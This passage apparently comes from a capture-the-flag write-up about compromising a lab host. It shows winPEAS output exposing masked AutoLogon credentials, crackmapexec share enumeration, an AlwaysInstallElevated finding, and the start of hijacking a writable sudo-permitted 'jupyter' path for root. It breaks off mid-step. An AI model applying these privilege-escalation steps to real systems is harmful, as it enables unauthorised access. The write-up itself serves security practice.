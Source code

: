```
+----------¦ Looking for AutoLogon credentials                                                                                                                           
    Some AutoLogon credentials were found                                                                                                                                       
    DefaultDomainName             :  DEV-DATASCI-JUP                                                                                                                        
    DefaultUserName               :  dev-datasci-lowpriv                                                                                                                    
    DefaultPassword               :  ****************************
```
We test the credentials in samba and list the permissions in shares:

```
> crackmapexec smb 10.10.81.101 -u Dev-datasci-lowpriv -p '********************' --shares
SMB         10.10.81.101    445    DEV-DATASCI-JUP  [*] Windows 10.0 Build 17763 x64 (name:DEV-DATASCI-JUP) (domain:DEV-DATASCI-JUP) (signing:False) (SMBv1:False)
SMB         10.10.81.101    445    DEV-DATASCI-JUP  [+] DEV-DATASCI-JUP\Dev-datasci-lowpriv:******************** 
SMB         10.10.81.101    445    DEV-DATASCI-JUP  [+] Enumerated shares
SMB         10.10.81.101    445    DEV-DATASCI-JUP  Share           Permissions     Remark
SMB         10.10.81.101    445    DEV-DATASCI-JUP  -----           -----------     ------
SMB         10.10.81.101    445    DEV-DATASCI-JUP  ADMIN$                          Remote Admin
SMB         10.10.81.101    445    DEV-DATASCI-JUP  C$                              Default share
SMB         10.10.81.101    445    DEV-DATASCI-JUP  datasci-team    READ,WRITE      
SMB         10.10.81.101    445    DEV-DATASCI-JUP  IPC$            READ            Remote IPC
```
In addition, **winpeas** tool find a Windows local privilege with *.msi* files:
```
+----------¦ Checking AlwaysInstallElevated                                                                                                                              
+  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated                                                         
    AlwaysInstallElevated set to 1 in HKLM!                                                                                                                                     
    AlwaysInstallElevated set to 1 in HKCU! 
```

After several tests, it seems that it doesn't work, so we go back through the steps and we find something interesting, and that is that there is a comma between the two commands, something that I ignored at the first moment.
```
(base) dev-datasci@DEV-DATASCI-JUP:~$ sudo -l
Matching Defaults entries for dev-datasci on DEV-DATASCI-JUP:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev-datasci may run the following commands on DEV-DATASCI-JUP:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /home/dev-datasci/.local/bin/jupyter, /bin/su dev-datasci -c *
(base) dev-datasci@DEV-DATASCI-JUP:~$ 
```

We see that we have read and write permissions on this directory, but the file *jupyter* is not there, so I generate a bash script to execute it later and apply elevated privileges on a bash.
```
ls -lna /home/dev-datasci/.local/bin/
total 0
drwxrwxrwx 1 1000 1000 4096 Aug 25  2022 .
drwx------ 1 1000 1000 4096 Aug 25  2022 ..
-rwxrwxrwx 1 1000 1000  216 Aug 25  2022 f2py
-rwxrwxrwx 1 1000 1000  216 Aug 25  2022 f2py3
-rwxrwxrwx 1 1000 1000  216 Aug 25  2022 f2py3.8
(base) dev-datasci@DEV-DATASCI-JUP:~$ 

/usr/bin/echo '#!/usr/bin/bash' >> jupyter
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ cat jupyter
```